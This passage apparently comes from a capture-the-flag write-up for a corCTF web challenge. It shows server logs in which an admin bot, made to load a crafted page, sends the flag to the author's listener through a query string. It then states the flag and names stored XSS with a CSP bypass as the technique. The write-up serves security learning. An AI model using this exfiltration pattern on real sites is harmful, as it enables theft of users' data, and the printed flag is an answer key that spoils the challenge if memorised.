 **Then send the shared frog page to admin bot again:**
```shell
127.0.0.1 - - [31/Jul/2023 16:40:41] "GET /payload?cachebuster=420 HTTP/1.1" 200 -
127.0.0.1 - - [31/Jul/2023 16:40:44] "GET /_next/static/chunks/pages/index-3228b8a1fcea6589.js HTTP/1.1" 200 -
127.0.0.1 - - [31/Jul/2023 16:40:45] "GET /flag?c=corctf{M1nd_Th3_Pr0p_spR34d1ng_XSS_ThR34t} HTTP/1.1" 404 -
127.0.0.1 - - [31/Jul/2023 16:40:46] "GET /_next/static/chunks/pages/index-3228b8a1fcea6589.js HTTP/1.1" 304 -
127.0.0.1 - - [31/Jul/2023 16:40:47] "GET /flag?c=corctf{M1nd_Th3_Pr0p_spR34d1ng_XSS_ThR34t} HTTP/1.1" 404 -
```

Nice!! It finally worked!

> Note: It refreshed twice because of the 5 seconds window in `adminbot.js` (`await page.waitForTimeout(5000);`).

- **Flag: `corctf{M1nd_Th3_Pr0p_spR34d1ng_XSS_ThR34t}`**

## Conclusion

What we've learned:

1. Stored XSS (Cross-Site Scripting) & CSP (Content Security Policy) Bypass